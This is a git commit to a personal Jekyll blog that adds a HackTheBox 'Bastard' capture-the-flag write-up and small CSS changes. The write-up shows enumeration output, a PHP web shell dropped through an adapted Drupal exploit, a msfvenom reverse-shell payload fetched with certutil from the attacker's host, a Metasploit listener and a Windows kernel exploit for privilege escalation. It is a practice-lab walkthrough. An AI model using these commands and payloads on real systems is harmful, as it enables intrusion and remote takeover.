

Before and after one commit to k-lazarev/k-lazarev.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1920 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
Add HTB - Bastard write-up, adjust CSS

````diff
--- /dev/null
+++ b/_posts/2020-08-24-htb-bastard.md
@@ -0,0 +1,154 @@
+---
+layout: post
+title: HackTheBox - Bastard write-up
+---
+As usual, I start with quick Nmap scan:
+```
+Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 12:41 EDT
+Nmap scan report for 10.10.10.9
+Host is up (0.013s latency).
+Not shown: 997 filtered ports
+PORT      STATE SERVICE VERSION
+80/tcp    open  http    Microsoft IIS httpd 7.5
+|_http-generator: Drupal 7 (http://drupal.org)
+| http-methods:
+|_  Potentially risky methods: TRACE
+| http-robots.txt: 36 disallowed entries (15 shown)
+| /includes/ /misc/ /modules/ /profiles/ /scripts/
+| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
+| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
+|_/LICENSE.txt /MAINTAINERS.txt
+|_http-server-header: Microsoft-IIS/7.5
+|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
+135/tcp   open  msrpc   Microsoft Windows RPC
+49154/tcp open  msrpc   Microsoft Windows RPC
+Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 67.96 seconds
+```
+I see Drupal instance at port 80,
+{:refdef: style="text-align: center;"}
+![](/images/d913bb42895841038e2673037ec43956.png)
+{: refdef}
+and I kick off `droopescan`:
+```
+python ~/bin/droopescan/droopescan scan drupal -u 10.10.10.9
+```
+Which finds nothing interesting, except the Drupal version:
+```
+[+] Possible version(s):
+    7.54
+```
+Visiting <a href="http://10.10.10.9/CHANGELOG.txt">http://10.10.10.9/CHANGELOG.txt</a> confirms that the detected version is correct.
+
+Next, I decide to enumerate web directories while looking for potentially useful Drupal exploits:
+```
+dirsearch.py -u http://10.10.10.9 -t 32 -r -e -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --plain-text-report="/home/k-lazarev/HackTheBox/Bastard/dirsearch-80.txt
+```
+Most relevant ExploitDB exploit:
+```
+Drupal 7.x Module Services - Remote Code Execution	|	php/webapps/41564.php
+```
+After a close look I notice that in order to work the exploit will require 3 variables. It also looks like the exploit should work with Drupal 7.54:
+```
+$url = 'http://vmweb.lan/drupal-7.54';
+$endpoint_path = '/rest_endpoint';
+$endpoint = 'rest_endpoint';
+```
+Luckily, `dirsearch` found REST endpoint:
+{:refdef: style="text-align: center;"}
+![](/images/be8ada321c604cbbb72f8bb21635c973.png)
+{: refdef}
+I adapt the exploit code for the current target:
+```
+$url = 'http://10.10.10.9';
+$endpoint_path = '/rest';
+$endpoint = 'rest_endpoint';
+
+$file = [
+    'filename' => 'nothingtoseehere.php',
+    'data' => '<?php echo(system($_GET["cmd"])); ?>'
+```
+and attempt to run it, which results into the error message:
+```
+PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/k-lazarev/HackTheBox/Bastard/exploits/41564.php:254
+```
+To fix the situation I run `sudo apt install php-curl` and execute the exploit once again.
+This time the result is remotre code execution on the box:
+{:refdef: style="text-align: center;"}
+![](/images/43010aa7437743e886b229bb6e57abe5.png)
+{: refdef}
+Good. Let's transfer a reverse shell executable genereted with `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=1337 -f exe > shell.exe`<br><br>I start HTTP server with `python -m SimpleHTTPServer 80` on my Kali VM and put `http://10.10.10.9/nothingtoseehere.php?cmd=certutil.exe%20-f%20-urlcache%20-split%20http://10.10.14.13/shell.exe%20shell.exe` into my browser's address bar. After that I set up a `meterpreter` listener:
+```
+msf5 > use exploit/multi/handler
+[*] Using configured payload generic/shell_reverse_tcp
+msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
+PAYLOAD => windows/meterpreter/reverse_tcp
+msf5 exploit(multi/handler) > set LHOST 10.10.14.13
+LHOST => 10.10.14.13
+msf5 exploit(multi/handler) > set ExitOnSession false
+ExitOnSession => false
+msf5 exploit(multi/handler) > set LPORT 1337
+LPORT => 1337
+msf5 exploit(multi/handler) > exploit -j
+```
+and put `http://10.10.10.9/nothingtoseehere.php?cmd=shell.exe` into the browser's address bar.
+
+At this point I have an interactive low-priv shell:
+{:refdef: style="text-align: center;"}
+![](/images/47452e158d6f4ac6818e4237fcb6e47b.png)
+{: refdef}
+For privesc I execute `winPEAS.bat`, only to find out that there are no hot fixes installed on Bastard:
+```
+Host Name:                 BASTARD
+OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
+OS Version:                6.1.7600 N/A Build 7600
+OS Manufacturer:           Microsoft Corporation
+OS Configuration:          Standalone Server
+OS Build Type:             Multiprocessor Free
+Registered Owner:          Windows User
+Registered Organization:
+Product ID:                00496-001-0001283-84782
+Original Install Date:     18/3/2017, 7:04:46
+System Boot Time:          24/8/2020, 6:51:48
+System Manufacturer:       VMware, Inc.
+System Model:              VMware Virtual Platform
+System Type:               x64-based PC
+Processor(s):              2 Processor(s) Installed.
+                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
+                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
+BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
+Windows Directory:         C:\Windows
+System Directory:          C:\Windows\system32
+Boot Device:               \Device\HarddiskVolume1
+System Locale:             el;Greek
+Input Locale:              en-us;English (United States)
+Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
+Total Physical Memory:     2.047 MB
+Available Physical Memory: 1.576 MB
+Virtual Memory: Max Size:  4.095 MB
+Virtual Memory: Available: 3.594 MB
+Virtual Memory: In Use:    501 MB
+Page File Location(s):     C:\pagefile.sys
+Domain:                    HTB
+Logon Server:              N/A
+Hotfix(s):                 N/A
+Network Card(s):           1 NIC(s) Installed.
+                           [01]: Intel(R) PRO/1000 MT Network Connection
+                                 Connection Name: Local Area Connection
+                                 DHCP Enabled:    No
+                                 IP address(es)
+                                 [01]: 10.10.10.9
+```
+
+This immidiately points to a kernel exploit. I study `winPEAS.bat` output further,
+```
+MS15-051 patch is NOT installed! (Vulns: 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
+```
+and and eventually grab an exploit from here: <a href="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip">https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip</a>
+
+After running the exploit on the box I get access as `NT AUTHORITY\SYSTEM`:
+{:refdef: style="text-align: center;"}
+![](/images/75ebdfbcca684015aafa5acc1ff16287.png)
+{: refdef}
--- a/_sass/_darcula.scss
+++ b/_sass/_darcula.scss
@@ -4,7 +4,7 @@
     background-color: #1e1c3f;
     padding: 7px 7px 7px 10px;
     overflow: auto;
-    font-size: 95%;
+    font-size: 100%;
 }
 
 code {
--- a/_sass/_highlights.scss
+++ b/_sass/_highlights.scss
@@ -5,12 +5,13 @@
   padding: 7px 7px 7px 10px;
   overflow: auto;
   font-size: 100%;
+  font-weight: bold;
 }
 
 code {
   font-family: 'Anonymous Pro', monospace;
   color: #d8d8d8;
-  font-weight: bold
+  font-weight: bold;
 }
 
 .highlighter-rouge {
--- a/style.scss
+++ b/style.scss
@@ -18,7 +18,7 @@
 }
 
 body {
-	background: $white;
+  background: $white;
   font: 18px/1.4 $helvetica;
   color: $darkGray;
 }
@@ -302,7 +302,7 @@
   }
 
   .read-more {
-    font-size: 16px;
+    font-size: 18px;
     font-weight: bold;
   }
 }
````
Also changed, not shown: images/43010aa7437743e886b229bb6e57abe5.png (added), images/47452e158d6f4ac6818e4237fcb6e47b.png (added), images/75ebdfbcca684015aafa5acc1ff16287.png (added), images/8f6443f53fa84f8eb59aaaededf253b0.png (added), images/be8ada321c604cbbb72f8bb21635c973.png (added), images/d913bb42895841038e2673037ec43956.png (added).
